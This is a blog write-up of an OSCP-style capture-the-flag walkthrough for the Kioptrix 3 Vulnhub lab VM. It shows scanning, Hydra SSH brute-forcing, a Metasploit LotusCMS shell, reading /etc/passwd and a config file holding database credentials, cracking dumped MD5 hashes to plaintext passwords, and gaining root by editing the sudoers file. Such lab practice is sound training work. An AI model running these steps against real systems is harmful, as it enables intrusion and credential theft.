 ```yaml
---
published: true
---
```

Vulnhub virtual machine; On the path to OSCP this box offered web-application testing with Metasploit, myphpadmin credentials enumeration. Cracking hashes with Hashcat an interesting Priv-Esc which included modifying the sudoer file. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Enumeration


    netdiscover -r 192.168.56.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620463329_image.png)


Target: 192.168.56.105

Nmap Scanning

    nmap -sV -sC -oA nmap/kio3 192.168.56.105

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620567596_image.png)


Navigating to http-server on port 80

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620689788_image.png)


searchsploit for web application

    searchsploit lingoat

nothing of note turned up.

Checking out the source of web-application

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620811976_image.png)


*looks to be based off php with the index.php?pagee=index.* 


We have a username `loneferret` who was mentioned on a blog section post. Move to try to bruteforce the ssh with user name.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550621922502_image.png)


Hydra Bruteforcing SSH

    hydra -e nsr -l loneferret -P /usr/share/wordlists/rockyou.txt 192.168.56.105 ssh -t 4

*Important: to use* `*-t 4*` *to not overload the ssh server and risk some passwords not being tested.*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550626098217_image.png)


*brute forcing inside a VM is… well terrible.*

Login page

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620908445_image.png)


searchsploit LotusCMS

    searchsploit LotusCMS

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620973843_image.png)


*interesting find*

Viewing how the Metasploit vulnerability works

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550621164831_image.png)


*There is a manipulation of the page parameter from the default page that will be worth investigating.*

# Remote Code Execution

Run metasploit - search lotuscms

    msfdb run

*this will load up the postgres and required files to launch.*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550622525612_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550622683572_image.png)


*We have achieved an easy shell.*

getuid gets users
sysinfo gets system information

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623213294_image.png)


capture /etc/passwd

    cat /etc/passwd

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623289348_image.png)


usernames `loneferret` exists as conformation.

Search for any type of config files

    search -d /home/www/kioptrix3.com -f *config*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623502933_image.png)


Investigating config files

    cat /home/www/kioptrix3.com/gallery/gconfig.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623589054_image.png)


*myphpadmin user/password discovered!*

Login to myphpadmin
navigate to kioptrix3.com/phpmyadmin

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623701859_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623748274_image.png)


*access granted*

Navigating through MySQL sever to the Gallery database and discovered `dev_accounts`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623926024_image.png)


Hashes captured

    dreg: 0d3eccfb887aabd50f243b3f155c0f85
    loneferret: 5badcaf789d3d1d09794d8f021f40f0e

Determining type of hash

    hash-identifier

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550624096240_image.png)


*MD5 looks like a possible match.*

Cracking Hashes with Hashcat
add hashes to hash.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550624471131_image.png)


Launch Hashcat

    hashcat -m 0 -a 0 hash.txt rockyou.txt -o cracked.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550624798144_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625123167_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625156643_image.png)


*Hashes successfully cracked.*

    dreg       - 0d3eccfb887aabd50f243b3f155c0f85: starwars
    loneferret - 5badcaf789d3d1d09794d8f021f40f0e: Mast3r


Connect to SSH

    ssh loneferret@kioptix3.com

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625371491_image.png)


perform a quick sudo -l to determine what we can su-DO. (joke complementary)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625450327_image.png)


# Priv-Esc

execute sudo ht

    sudo ht

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625527269_image.png)


playing around till discovered `**ALT+f**` is the command to move around in application

Modifying the sudoers file

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625773032_image.png)


adding `/bin/sh/` to loneferret && save file

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625879783_image.png)


# Root

    sudo /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550626004346_image.png)


Bring me the root!

-exec
